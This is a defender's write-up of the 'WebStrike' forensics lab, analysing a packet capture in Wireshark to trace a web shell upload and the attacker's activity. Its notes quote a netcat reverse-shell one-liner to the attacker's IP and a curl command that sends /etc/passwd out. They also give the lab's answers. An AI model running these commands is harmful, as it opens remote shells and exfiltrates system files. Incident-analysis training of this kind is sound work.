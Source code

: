 # WebStrike Lab

## Objective:

Task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.

### Skills Learned

1. Identifying the geographical origin of the attack facilitates the implementation of geo-blocking measures and the analysis of threat intelligence. From which city did the attack originate?
2. Knowing the attacker's User-Agent assists in creating robust filtering rules. What's the attacker's Full User-Agent?
3. We need to determine if any vulnerabilities were exploited. What is the name of the malicious web shell that was successfully uploaded?
4. Identifying the directory where uploaded files are stored is crucial for locating the vulnerable page and removing any malicious files. Which directory is used by the website to store the uploaded files?
5. Which port, opened on the attacker's machine, was targeted by the malicious web shell for establishing unauthorized outbound communication?
6. Recognizing the significance of compromised data helps prioritize incident response actions. Which file was the attacker attempting to exfiltrate?

### Tools Used

- Wireshark
- ipgeolocation.io

## Steps:

1. Navigate to the WebStrike.PCAP file that was captured.  *Ref 1: WebStrike.PCAP file
2. Perform an IPv4 Address Lookup of ---| 117.11.88.124 |. 
3. Identify the User-Agent ---| Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |.
4. Create a filter for Wireshark ---| (ip.src == 117.11.88.124 and http.request.method=="POST") |.
5. Identify any successful uploads ---| "image.jpg.php" uploaded successfully |.
6. Locate the file location of the uploaded file ---| /reviews/uploads/ |.
7. Identify the targeted Port used for infiltration ---| Port 8080 |.
8. Create a filter for Wireshark ---| (tcp.port==8080) && (ip.src==24.49.63.79) |.
9. Identify the commands used for exfiltration ---| "curl" "curl -X POST -d /etc/passwd 117.11.88.124:443" |.
10. Identified the critical information containing sensitive user configuration data.

drag & drop screenshots here or use imgur and reference them using imgsrc

Every screenshot should have some text explaining what the screenshot is about.

Example below.

*Ref 1: WebStrike.PCAP file

## Notes:

- Thunar file system interaction
- https://ipgeolocation.io/   for IPv4v Address (117.11.88.124) Lookup
- WebStrike.PCAP
- uese-agent ---- | Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0 |
- Filter for wire shark ---- |(ip.src == 117.11.88.124 and http.request.method=="POST") |
- "image.jpg.php" uploaded successfully
- ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f")
- Uploaded file found in /reviews/uploads/
- Port 8080 targeted
- Filter for wire shark ---- | (tcp.port==8080) && (ip.src==24.49.63.79) |
- Attacker used "curl" "curl -X POST -d /etc/passwd 117.11.88.124:443/"
- Shows exfiltration of critical information containing sensitive user configuration data.
- 
